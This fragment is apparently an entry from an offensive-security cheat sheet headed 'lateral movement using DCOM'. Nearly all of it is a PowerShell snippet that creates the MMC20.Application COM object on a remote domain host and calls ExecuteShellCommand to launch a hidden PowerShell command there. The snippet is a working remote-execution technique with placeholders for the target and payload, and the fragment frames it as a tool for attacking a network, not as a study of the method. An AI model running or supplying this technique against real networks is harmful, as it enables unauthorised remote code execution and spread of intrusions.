 ### lateral movement using DCOM
```
$mmc = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "<domain>"))
$mmc.Document.ActiveView.ExecuteShellCommand("powershell.exe",$null,'-NoP -W Hidden -Command "<command>"',$null)
```

